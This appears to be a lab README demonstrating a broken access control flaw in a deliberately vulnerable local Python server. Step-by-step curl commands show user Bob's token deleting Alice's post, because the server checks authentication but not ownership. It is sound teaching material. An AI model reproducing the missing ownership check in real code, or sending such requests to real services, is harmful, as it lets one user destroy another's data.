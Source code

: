 ## Prerequisites
First, ensure the vulnerable Python server is running with the following command:

```Bash

uvicorn vulnerable:app --reload
```
## Exploitation Steps
The goal is to use an authenticated user, Bob, to delete a post that belongs to another user, Alice.

1. Verify the Target Exists
Before the attack, confirm that Alice's post (ID 1) is available. You can do this with a simple GET request.

```Bash
curl http://127.0.0.1:8000/posts/1
```
Expected Response:

```JSON

{"owner":"alice","content":"Post da Alice."}
```
2. Perform the Exploit
Now, send a DELETE request to the URL for Alice's post. The key to the exploit is to use Bob's authentication token (token_de_bob) in the Authorization header.

```Bash

curl -X DELETE "http://127.0.0.1:8000/posts/1" \
     -H "Authorization: Bearer token_de_bob"
```

The server will accept this request and respond with a 204 No Content status, indicating success, because it only checks for authentication, not for ownership.

3. Confirm the Deletion
To verify that the exploit was successful, try to retrieve Alice's post again.

```Bash

curl http://127.0.0.1:8000/posts/1
```
Expected Response:

```JSON

{"detail":"Post not found"}
```
This confirms that Bob successfully deleted Alice's resource, which is a critical Broken Access Control failure.
